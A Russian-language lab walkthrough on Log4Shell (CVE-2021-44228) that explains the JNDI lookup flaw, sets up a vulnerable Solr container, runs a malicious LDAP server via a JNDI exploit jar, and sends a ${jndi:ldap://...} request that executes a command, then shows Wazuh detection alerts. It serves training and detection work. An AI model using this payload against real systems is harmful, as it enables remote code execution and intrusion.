





# CVE-2021-44228

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
* [https://securelist.ru/cve-2021-44228-vulnerability-in-apache-log4j-library/104144/](https://securelist.ru/cve-2021-44228-vulnerability-in-apache-log4j-library/104144/)

Уязвимость удаленного выполнения кода CVE-2021-44228 была обнаружена в библиотеке Apache Log4j части Apache Logging Project. Если какой-либо продукт для записи файлов журналов использует уязвимую версию данной библиотеки с поставляемым JNDI-модулем, то есть большая вероятность эксплуатации CVE-2021-44228 в этом продукте. Уязвимы почти все версии Log4j, начиная с 2.0-beta9 и заканчивая 2.14.1.\
Библиотека Log4j имеет механизм Lookup, который используется для выполнения запросов путем обработки специального синтаксиса в форматной строке. Например, с помощью него можно запрашивать различные параметры, такие как версия окружения Java через _${java:version}_ и т. д. При этом если указать в строке в качестве ключа _jndi_, то механизм Lookup будет осуществляться через JNDI API. По умолчанию все запросы осуществляются с префиксом _java:comp/env/_, однако авторы предусмотрели возможность указания собственного префикса — для этого в ключе надо поставить символ двоеточия. Здесь и кроется уязвимость: если указать в качестве ключа, например, _jndi:ldap://_, то запрос будет осуществляться на указанный LDAP-сервер. Также возможно использование и других протоколов для взаимодействия, например LDAPS, DNS, RMI.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/log4j/CVE-2021-44228

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8983 будет доступен портал администратора Apache Solr

<figure><figcaption></figcaption></figure>

Для реализации уязвимости сперва нужно поднять зловредный LDAP-сервер. Сделать это можно с помощью [этого](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar) .jar файла

Для этого выполните команду&#x20;

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

Где в качестве параметра -C в кавычках укажите команду, которая должна выполниться, а в качестве параметра -A в кавычках укажите ip машины, на котором будет поднят LDAP-сервер

<figure><figcaption></figcaption></figure>

Затем отправьте соответствующий GET-запрос на уязвимую машину

```
GET /solr/admin/cores?action=${jndi:ldap://адрес_LDAP-сервера} HTTP/1.1
Host: ваш-ip:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

<figure><figcaption></figcaption></figure>

После отправки запроса на уязвимой машине будет создан файл /tmp/success

<figure><figcaption></figcaption></figure>

В Wazuh ([https://ваш-ip/app/wazuh](https://xn---ip-5cdj7k/app/wazuh)) мы можем увидеть соответствующие алерты об эксплуатации CVE-2021-44228

<figure><figcaption></figcaption></figure>
